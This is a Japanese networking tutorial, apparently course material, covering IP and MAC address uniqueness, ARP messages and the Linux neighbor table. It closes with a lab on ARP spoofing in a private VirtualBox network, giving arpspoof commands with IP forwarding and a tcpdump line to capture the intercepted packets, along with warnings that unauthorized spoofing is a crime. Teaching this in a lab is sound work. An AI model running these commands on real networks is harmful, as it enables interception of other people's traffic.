 ```yaml
---
layout: post
title:  "IPアドレスの一意性"
date:   2018-08-21
permalink: /networking/:title
categories: TCP/IP
tags: ARP IP
excerpt: IPアドレスやMACアドレスの一意性に関するポストです
mathjax: false
---
```

 
* content
{:toc}

**このトピックではARP Spoofingというテクニックを取り扱います。
たとえ自社内であってもネットワーク管理者に許可されていないARP Spoofingは犯罪行為です。
講師の指示が無い限りARP Spoofingを試してはいけません。**

## アドレスの一意性

### 前置き

2台のコンピュータが相互に通信するためにはお互いの位置を把握する必要があります。
Layer3のIPアドレスとLayer2のMACアドレスがその役目を担います。
これらのアドレスの一意性が確保できないと意図した通信が行われません。

![](/images/arp/addressing01.png)

![](/images/arp/addressing02.png)

![](/images/arp/addressing03.png)

### 目的

同一ネットワーク（ブロードキャストドメイン）内でIPアドレスやMACアドレスを重複させてpingが届かなくなることを確認します。

### 手順

2台以上のホストを用意します。ホストは同一ネットワーク上に配置してお互いにpingで疎通確認してください。

その後お互いのNICのMACアドレスを確認します。

VirtualBoxのネットワーク設定から任意のMACアドレスを設定することが出来ます。
あらかじめ確認した通信相手のMACアドレスと同じ値を指定してください。

作業は仮想マシンを停止してから行います。

![](/images/arp/bridge_mac.png)

仮想マシンを起動してMACアドレスが指定した値になっている事を確認します。
この状態で通信相手にpingが届かなくなっていることを確認してください。

```
# ip address show enp0s8
```

![](/images/arp/mac2.png)

MACアドレスを元に戻し、その代りにIPアドレスが同一ネットワーク上で重複している状態を作り出してください。
この状態で通信相手にpingが届かなくなっていることを確認してください。

![](/images/arp/ip.png)

## ARPメッセージ

目的のIPアドレスの物理的な位置を知るためにARPメッセージが利用されます。
Wiresharkを起動してARPメッセージが流れる様を観察しましょう。

![](2019-07-14-16-17-17.png)

1. 08:00:27:da:ec:ab から ブロードキャストメッセージ「こちら 192.168.200.2 です. 192.168.200.1 はどこですか？」
2. 08:00:27:e0:4f:3b から 08:00:27:da:ec:ab へ返信「192.168.200.1 は 08:00:27:e0:4f:3b です」
3. 08:00:27:da:ec:ab から 08:00:27:e0:4f:3b へPING開始

ARPメッセージで物理的位置が判明したIPアドレスはARPテーブル（ネイバーテーブル）に記録されます。
ARPテーブルに記録されているIPアドレスは既に物理的位置が分かっていますから、ARPメッセージの交換をせずにいきなりIP通信を開始できます。

```
# ネイバーテーブルを確認する
ip neighbor
```

もしARPメッセージを新たに確認したい場合は記録済みのARPテーブルから該当のIPアドレスに関する記録を削除しましょう。

```
# ネイバーテーブルの確認
ip neighbor

#10.0.2.2 dev enp0s3 lladdr 52:54:00:12:35:02 REACHABLE
#192.168.200.99 dev enp0s8 lladdr 08:00:27:48:aa:7a STALE
#192.168.200.1 dev enp0s8 lladdr 08:00:27:e0:4f:3b STALE
#172.16.0.21 dev vlan20 lladdr 08:00:27:e0:4f:3b STALE

# 192.168.200.1 dev enp0s8 に関する記録を削除
ip neighbor del 192.168.200.1 dev enp0s8
```

## ARP Spoofing

MACアドレスやIPアドレスが一意であることには意味があるという事が分かりました。
では次のようなネットワークが存在したらどうなるでしょうか。
192.168.200.1と192.168.200.2が通信しているネットワークに不審な挙動の192.168.200.99が割り込んでいます。

![](2019-07-14-14-38-38.png)

不審なホストの割り込みによって、192.168.200.1と192.168.200.2はお互いのMACアドレスを記録したネイバーテーブルを上書きされました。
そのため192.168.200.1から192.168.200.2へデータを送信する経路は次のように変化します。

![](2019-07-14-14-49-32.png)

### 確認手順

実際に試してみましょう。
不審なホストでこれを実現する為のコマンドは次の通りです。

```
# 上の図で不審なホストである 192.168.200.99 でこのコマンドを実行する

# パケット転送機能ON
sysctl -w net.ipv4.conf.enp0s8.forwarding=1

# 192.168.200.1に対して192.168.200.2に成りすます
arpspoof -i enp0s8 -t 192.168.200.1 192.168.200.2 &

# 192.168.200.2に対して192.168.200.1に成りすます
arpspoof -i enp0s8 -t 192.168.200.2 192.168.200.1
```

準備が出来たら192.168.200.1から192.168.200.2へPINGを送信します。
分かりやすくするためPINGのメッセージパターンにdeadbeafを指定しておきましょう。

![](2019-07-14-15-29-12.png)

192.168.200.99でtcpdumpを使えばパケットを盗聴出来ている事を確認出来ます。
```
tcpdump -i enp0s8 net 192.168.200.0/24 and not arp -x
```

![](2019-07-14-15-26-06.png)

このようにMACアドレスを騙る行為をARP Spoofing（ARPメッセージによる成りすまし）と呼びます。
たとえ自社内であってもネットワーク管理者に許可されていないARP Spoofingは犯罪行為です。

